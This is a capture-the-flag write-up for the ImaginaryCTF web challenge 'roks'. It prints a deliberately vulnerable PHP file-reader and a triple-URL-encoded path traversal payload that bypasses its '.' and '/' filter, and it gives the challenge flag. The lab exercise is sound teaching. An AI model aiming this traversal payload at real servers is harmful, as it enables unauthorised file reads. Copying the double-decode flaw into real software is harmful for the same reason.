 **Name: Sen0rC4**

**Challenge Name: roks**

**Category: Web**

**Points: 100**

## Challenge:

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
Attachments

[roks.zip](files/roks.zip) 

## Approach:

When going to the site you are greeted by a button that picks a random picture of a rock.

If you intercept the request with burp, we see it uses ==file== inclusion. So I am thinking path traversal.

```GET /file.php?file=image4 HTTP/1.1
Host: roks.chal.imaginaryctf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://roks.chal.imaginaryctf.org/
Cookie: _ga_0LKSSBL38W=GS1.1.1690084714.5.1.1690084784.0.0.0; _ga=GA1.1.865862315.1690061016; _ga_BHMLHVLGF2=GS1.1.1690079570.3.0.1690079574.0.0.0
```

However, when we try to path traverse we recieve the ==stop hacking you hackers== image.

`/file.php?file=../../../../../../flag.png == stop hacking you hackers`

Lets take a look at the provided source code:


```<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

Website dosent allow "." or "/"

looks like it urldecodes once to check for . and /

it then decodes again to grab the rok file name

So we should url encode our request url twice to make sure it dosent see our "." or "/".

CyberChef will encode "." if you check the "encode all special characters

It also allows you to string together multiple encodes.

`%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fflag%252Epng`


We still get stop hacking image

I did some more enumeration and went to robots.txt and we see the site is made with apache.... which url decodes once before the site sees the request

If we url encode 3 times we should be able to path traverse

request sent: `http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng`

flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`